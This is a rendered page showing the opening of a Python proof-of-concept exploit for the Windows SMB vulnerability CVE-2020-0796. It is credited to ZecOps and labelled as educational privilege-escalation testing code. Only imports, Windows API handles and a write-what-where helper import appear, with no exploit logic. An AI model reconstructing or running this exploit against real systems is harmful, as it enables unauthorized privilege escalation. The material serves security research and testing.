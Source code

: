![/assets/5520bbff-5dec-4aed-89b1-8b423c2c06ad/d92bc102-b9b1-4951-9a27-0a00de7ec043.png](/assets/5520bbff-5dec-4aed-89b1-8b423c2c06ad/d92bc102-b9b1-4951-9a27-0a00de7ec043.png)

```python
# CVE-2020-0796 Local Privilege Escalation POC
# (c) 2020 ZecOps, Inc. - https://www.zecops.com - Find Attackers' Mistakes
# Intended only for educational and testing in corporate environments.
# ZecOps takes no responsibility for the code, use at your own risk.
# Based on the work of Alexandre Beaulieu:
# https://gist.github.com/alxbl/2fb9a0583c5b88db2b4d1a7f2ca5cdda

import sys
import random
import binascii
import struct
import os
import subprocess
import pathlib

from write_what_where import write_what_where

from ctypes import *
from ctypes.wintypes import *

# Shorthands for some ctypes stuff.
kernel32 = windll.kernel32
ntdll = windll.ntdll
psapi = windll.psapi
advapi32 = windll.advapi32
OpenProcessToken = advapi32.OpenProcessToken

# Constants.
STATUS_SUCCESS = 0
```